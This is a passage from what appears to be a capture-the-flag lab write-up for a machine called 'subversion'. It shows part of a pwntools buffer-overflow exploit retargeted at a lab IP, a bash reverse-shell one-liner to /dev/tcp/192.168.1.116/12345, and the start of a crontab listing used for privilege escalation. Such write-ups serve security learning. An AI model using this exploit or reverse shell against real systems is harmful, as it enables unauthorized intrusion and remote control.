 ```python
    p.sendline(bytes(str(random_number), 'ascii'))

def overflow():
    funcion = p64(0x00000000004017b4)
    offset = 64+8 
    buffer = b"A"*offset
    payload = buffer + funcion
    p.recvuntil("Introduce tu \"mágico\" texto para continuar:".encode('utf-8'))
    p.sendline(payload)


if __name__ == '__main__':
    responde()
    aleatorio()
    overflow()
    p.interactive()
```

We execute it and obtain a shell on our own system, working as expected.  

![alt text](/assets/subversion/exploit-1.png)  

Now, we modify the first lines of the exploit so that instead of executing the downloaded `subversion` binary, it connects to port `1789`.  

```python
binario = './subversion'
# p = process(binario)
p = remote('172.17.0.2', '1789')
```

We run the exploit again and obtain a shell as user `luigi` on the server.  

![alt text](/assets/subversion/exploit-2.png)  

## Privilege Escalation  

To work more comfortably on the server, we create another shell and set up tty handling.  

![alt text](/assets/subversion/escalada.png)  

```
/usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/192.168.1.116/12345 0>&1"
```

We find a scheduled task that runs every minute as the root user.

```bash
luigi@22ae1bc1f511:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
```